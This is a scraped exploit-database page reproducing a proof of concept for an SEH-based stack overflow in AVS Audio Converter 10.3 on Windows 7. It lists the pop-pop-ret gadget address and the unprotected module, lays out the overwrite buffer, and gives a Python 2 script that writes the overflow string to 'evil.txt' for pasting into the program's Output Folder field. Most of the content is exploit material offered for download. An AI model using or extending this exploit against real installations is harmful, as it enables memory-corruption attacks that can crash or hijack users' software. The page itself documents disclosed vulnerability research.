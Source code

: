 ```yaml
---
title: AVS Audio Converter 10.3 Stack Overflow exploit
url: https://sploitus.com/exploit?id=PACKETSTORM:169427&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2022-10-20
fetch_date: 2025-10-03T20:21:42.757980
---
```


# AVS Audio Converter 10.3 Stack Overflow exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for AVS Audio Converter 10.3 Stack Overflow

2022-10-19 | CVSS 0.8

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=PACKETSTORM:169427
# Exploit Title: AVS Audio Converter 10.3 - Stack Overflow (SEH)
# Discovered by: Yehia Elghaly - Mrvar0x
# Discovered Date: 2022-10-16
# Tested Version: 10.3.1.633
# Tested on OS: Windows 7 Professional x86

#pop+ret Address=005154E6
#Message= 0x005154e6 : pop ecx # pop ebp # ret 0x04 | startnull {PAGE_EXECUTE_READ} [AVSAudioConverter.exe]
#ASLR: False, Rebase: False, SafeSEH: False, OS: False, v10.3.1.633 (C:\Program Files\AVS4YOU\AVSAudioConverter\AVSAudioConverter.exe)

# The only module that has SafeSEH disabled.
# Base | Top | Rebase | SafeSEH | ASLR | NXCompat | OS Dll |
# 0x00400000 | 0x01003000 | False | False | False | False | False |

#Allocating 4-bytes for nSEH which should be placed directly before SEH which also takes up 4-bytes.

#Buffer = '\x41'* 260
#nSEH = '\x42'*4
#SEH = '\x43'*4
#ESI = 'D*44' # ESI Overwrite

#buffer = "A"*260 + [nSEH] + [SEH] + "D"*44
#buffer = "A"*260 + "B"*4 + "\xE6\x54\x51\x05" + "D"*44

# Rexploit:
# Generate the 'evil.txt' payload using python 2.7.x on Linux.
# Open the file 'evil.txt' Copy.
# Paste at'Output Folder and click 'Browse'.

#!/usr/bin/python -w

filename="evil.txt"

buffer = "A"*260 + "B"*4 + "C"*4 + "D"*44

textfile = open(filename , 'w')
textfile.write(buffer)
textfile.close()
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)
